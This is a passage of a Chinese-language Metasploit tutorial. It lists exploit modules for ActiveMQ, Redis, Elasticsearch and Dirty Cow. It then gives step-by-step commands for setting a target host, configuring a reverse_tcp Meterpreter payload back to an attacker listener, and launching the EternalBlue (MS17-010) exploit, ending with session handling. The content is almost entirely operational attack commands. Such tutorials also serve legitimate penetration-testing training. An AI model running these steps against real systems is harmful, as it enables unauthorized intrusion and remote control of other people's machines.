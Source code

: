 | Apache ActiveMQ 反序列化漏洞       | `exploit/multi/misc/activemq_deserialization`       |
| Redis 未授权访问漏洞                | `exploit/linux/redis/redis_unauth_exec`             |
| Elasticsearch RCE 漏洞         | `exploit/multi/elasticsearch/script_mvel_rce`       |
| 脏牛Dirty Cow（CVE-2016-5195）   | `use exploit/linux/local/dirtycow`                  |

### 3.2、配置参数
使用`show options`查看目标模块的可配置参数：
- 设置目标IP：  
```bash
set RHOST 192.168.1.100
```
- 设置反弹Shell监听：
```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <你的IP>
set LPORT 4444
```
- 查看当前配置：
```bash
show options
```

### 3.3、执行漏洞利用
启动Exploit模块：
```bash
exploit
或
run
```

案例：
- 漏洞：MS17-010 (EternalBlue)  
1. 使用模块：  
```bash
use exploit/windows/smb/ms17_010_eternalblue
```
2. 配置目标：  
```bash
set RHOST 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
3. 执行攻击：  
```bash
exploit
```

### 3.4、验证会话
- 查看当前会话列表：  
```bash
  sessions -l
```
- 选择会话：
```bash
  sessions -i <会话ID>
```
